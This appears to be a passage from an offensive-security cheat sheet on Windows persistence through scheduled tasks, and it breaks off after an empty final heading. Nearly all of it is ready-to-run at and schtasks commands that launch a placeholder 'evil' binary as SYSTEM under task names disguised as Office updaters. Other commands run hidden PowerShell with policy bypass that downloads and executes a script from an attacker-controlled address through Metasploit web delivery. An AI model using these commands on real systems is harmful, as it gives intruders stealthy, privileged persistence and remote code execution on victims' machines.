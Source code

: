 
### Task Scheduling

#### AT
Executes as system and must be an Admin to run it. Check groups with whoami /groups
```
	at 13:20 /interactive cmd
	
	net user \\target /user:Domain\user pass
	net time \\target
	at \\target 13:20 c:\temp\evil.bat
```

#### SCHTASKS
Any user can create a task

Schedule a binary to run with arguments	on system events
```	
	#On System Startup
	schtasks /create /TN OfficeUpdaterA /tr ""c:\evil32.exe" -k password -n services" /SC onstart /RU system /RL HIGHEST
	schtasks /create /TN OfficeUpdaterD /tr "\"c:\Program Files\evil32.exe\" -k password -n services" /SC onstart /RU system /RL HIGHEST
	
	#On User Login
	schtasks /create /TN OfficeUpdaterB /tr ""c:\evil32.exe" -k password -n services" /SC onlogon
	schtasks /create /TN OfficeUpdaterE /tr "\"c:\Program Files\evil32.exe\" -k password -n services" /SC onlogon	

	#On Idle
	schtasks /create /TN OfficeUpdaterC /tr ""c:\evil32.exe" -k password -n services" /SC onidle /i 30''''
	schtasks /create /TN OfficeUpdaterF /tr "\"c:\Program Files\evil32.exe\" -k password -n services" /SC onidle /i 60
```

Use the Powershell Web Delivery (Download and Execute) module in Metasploit 'exploit\windows\misc\psh_web_delivery'
```
	#(X86) - On User Login
	schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onlogon /ru System
 
	#(X86) - On System Start
	schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onstart /ru System
 
	#(X86) - On User Idle (30mins)
	schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onidle /i 30
 
	#(X64) - On User Login
	schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onlogon /ru System
 
	#(X64) - On System Start
	schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onstart /ru System
 
	#(X64) - On User Idle (30mins)
```